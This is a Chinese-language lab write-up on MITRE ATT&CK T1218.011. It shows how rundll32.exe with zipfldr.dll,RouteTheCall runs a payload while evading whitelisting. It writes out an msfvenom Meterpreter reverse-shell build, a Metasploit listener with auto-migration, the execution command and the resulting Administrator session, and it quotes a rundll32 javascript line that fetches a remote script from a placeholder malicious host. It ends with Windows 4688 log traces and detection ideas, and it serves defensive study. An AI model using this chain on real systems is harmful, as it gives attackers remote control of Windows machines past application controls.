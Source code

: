 # T1218-011-win-基于白名单Zipfldr.dll执行Payload

## 来自ATT&CK的描述

Rundll32.exe程序可以调用来执行任意二进制文件。攻击者可能会利用此功能来代理执行代码，从而避免触发那些可能不会监控rundll32.exe进程执行的安全工具，因为正常操作中使用rundll32.exe的Windows会有白名单或误报。

Rundll32.exe可用于通过未记录的shell32.dll函数Control_RunDLL和 Control_RunDLLAsUser来执行控制面板项目文件（.cpl）。双击.cpl文件也会触发rundll32.exe执行。

Rundll32也可用于执行JavaScript等脚本。可以使用类似于下面的语法来完成：rundll32.exe javascript:"..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https[:]//www[.]example[.]com/malicious.sct")" 。这种方法已被恶意软件如Poweliks所使用。

## 测试案例

zipfldr.dll自Windows xp开始自带的zip文件压缩/解压工具组件，同样该工具支持WinXP-Win10 全版本，zipfldr.dll所在路径已被系统添加PATH环境变量中，因此zipfldr.dll命令可识别，但由于为dll文件，需调用rundll32.exe来执行。

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

 Windows 2003 默认位置：

C:\Windows\System32\zipfldr.dll

C:\Windows\SysWOW64\zipfldr.dll

Windows 7 默认位置：

C:\Windows\System32\zipfldr.dll

C:\Windows\SysWOW64\zipfldr.dll

## 检测日志

windows 安全日志（需要自行配置）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：windows server 2012

### 攻击分析

#### 生成payload.dll

```bash
root@12306Br0:~# msfvenom -p windows/meterpreter/reverse_tcp -b '\x00\x0b' LHOST=192.168.126.146 LPORT=4444 -f exe > shell.exe
```

#### 执行监听

攻击机,注意配置set AutoRunScript migrate f (AutoRunScript是msf中一个强大的自动化的后渗透工具，这里migrate参数是迁移木马到其他进程)

```bash
msf5 > use exploits/multi/handler
msf5 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.126.146
lhost => 192.168.126.146
msf5 exploit(multi/handler) > set lport 4444
lport => 4444
msf5 exploit(multi/handler) > set AutoRunScript migrate f
AutoRunScript => migrate f
msf5 exploit(multi/handler) > exploit
```

#### 靶机执行payload

```cmd
rundll32.exe zipfldr.dll,RouteTheCall .\shell.exe #shell.exe存放路径下执行
```

#### 反弹shell

```bash
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.126.146:4444
[*] Sending stage (180291 bytes) to 192.168.126.156
[*] Meterpreter session 6 opened (192.168.126.146:4444 -> 192.168.126.156:49176) at 2020-04-13 10:54:22 +0800
[*] Session ID 6 (192.168.126.146:4444 -> 192.168.126.156:49176) processing AutoRunScript 'migrate f'
[!] Meterpreter scripts are deprecated. Try post/windows/manage/migrate.
[!] Example: run post/windows/manage/migrate OPTION=value [...]

meterpreter > getuid
Server username: WIN-IFPMACUK8BT\Administrator

```

## 测试留痕

安全日志能够清晰的记录命令行参数，截取windows安全事件4688进程创建部分内容：

```log
进程信息: #4688-1
新进程 ID:0x918
新进程名称:C:\Windows\System32\rundll32.exe
令牌提升类型:TokenElevationTypeDefault (1)
创建者进程 ID:0x948
进程命令行:rundll32.exe  zipfldr.dll,RouteTheCall .\shell.exe

进程信息: #4688-2
新进程 ID:0x94c
新进程名称:C:\Users\Administrator\Desktop\a\shell.exe
令牌提升类型:TokenElevationTypeDefault (1)
创建者进程 ID:0x918
进程命令行:"C:\Users\Administrator\Desktop\a\shell.exe"
```

## 检测规则/思路

无具体检测规则，可根据进程创建事件4688/1（进程名称、命令行）进行监控。本监控方法需要自行安装配置审核策略/sysmon。

## 参考推荐

MITRE-ATT&CK-T1218-011

<https://attack.mitre.org/techniques/T1218/011/>

基于白名单的Payload

<https://blog.csdn.net/weixin_30790841/article/details/101848854>
